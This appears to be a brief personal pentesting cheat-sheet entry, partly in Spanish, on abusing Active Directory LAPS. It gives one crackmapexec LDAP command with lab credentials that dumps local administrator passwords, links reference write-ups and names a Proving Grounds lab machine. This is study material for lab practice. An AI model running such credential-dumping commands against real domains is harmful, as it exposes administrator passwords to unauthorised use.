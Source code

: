 ## DESCRIPTION

![[Pasted image 20230617171947.png]]

#### Mas información
* https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/laps
* https://juggernaut-sec.com/proving-grounds-hutch/


## EXPLOITATION

### OPTION 1: WITH CME

```
crackmapexec ldap 192.168.219.122 -u fmcsorley -p CrabSharkJellyfish192 --kdcHost 192.168.219.122 -M laps
```



## MACHINES

* Hack The Box: 
* PG: Huntch

**!!NOTA IMPORTANTE!!** 